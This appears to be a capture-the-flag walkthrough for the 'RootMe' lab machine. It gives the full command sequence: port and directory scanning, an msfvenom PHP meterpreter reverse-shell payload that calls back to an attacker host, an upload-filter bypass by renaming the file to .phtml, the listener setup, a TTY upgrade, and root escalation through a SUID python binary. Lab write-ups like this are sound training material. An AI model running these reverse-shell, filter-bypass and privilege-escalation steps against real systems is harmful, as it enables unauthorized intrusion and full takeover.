









<div align="center">


# RootMe

**Difficulty:** Easy

**Category:** Web & Priv Esc

</div>

---

### Scan the machine, how many ports are open?

```bash
nmap -sV -sC 10.81.171.205 -oN rootme-nmap.txt
```

22
80

=
2

### What version of Apache is running?

Seen from the output of nmap `-sV`.

`2.4.41`

### What service is running on port 22?

Default port for `ssh`.

### Find directories on the web server using the GoBuster tool.

```bash
gobuster dir -u http://10.81.171.205 -w /usr/share/wordlists/dirb/big.txt
```

I did this faster with `Fuzz Faster u Fool`:

```bash
ffuf -u http://10.81.171.205/FUZZ -w /usr/share/wordlists/dirb/big.txt
```


**What is the hidden directory?**



The hidden directory is `panel`.

We go to the URL: `http://10.81.171.205/panel/`:



We try creating a `reverse web shell payload`:

By looking at the headers from the website we can see the type of webserver:

```bash
curl -I http://10.81.171.205
```



From the `PHPSESSID` cookie field we can tell it is a PHP server. We will create a PHP webshell:

We can find payloads in `/usr/share/metasploit-framework/modules/payloads/singles/php/`.

I chose this:
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.135.169 LPORT=1337 -o rev.php
```


When I try to upload the file `rev.php` to the webserver I get this:



PHP is not allowed!

I can upload a txt file:



Im guessing it will get posted to `/uploads` which we saw from the `FFUF` scan:



yup.

I rename the msfvenom payload to `rev.phtml`. This is an alternative extension that Apache's `mod_php` still processes as PHP, it may bypass the filter that block `.php`.

It gets approved!

Now I set up a meterpreter listener:
```bash
msfconsole -q
use exploit/multi/handler
set payload php/meterpreter_reverse_tcp
set LHOST 192.168.135.169
set LPORT 1337
run
```

When I open the file from `/uploads` I get this:



We have a shell! To get a normal shell (not a meterpreter one), do:

```bash
shell
```

Now I upgrade to a full tty shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + z
stty raw -echo; fg
export TERM=xterm
```

We can find the `user.txt` flag in `/var/www/user.txt`:

```
THM{y0u<REDACTED>3ll}
```

### Priv Esc

**Search for files with SUID permission, which file is weird?**

```bash
find / -perm -u=s -type f 2>/dev/null
```



This one is pretty weird!

`/usr/bin/python2.7`

We see who we can run this binary as:

```bash
ls -la /usr/bin/python2.7
-rwsr-xr-x 1 root root 3657904 Dec  9  2024 /usr/bin/python2.7
```

Nice!

We can use `python` instead of writing `python2.7` since python is a symlink to the `python2.7` binary.

This command from https://gtfobins.org gives me root access:

```bash
python -c 'import os; os.execl("/bin/bash","bash","-p")'
```

Does this:
* execute this python code:
	* import os
	* execute os command "/bin/bash -p"

`-p` (privileged) tells bash to keep the effective `SUID`, required on newer systems.



We can find the root flag in `/root/root.txt`:
```
THM{pr1v<REDACTED>10n}
```
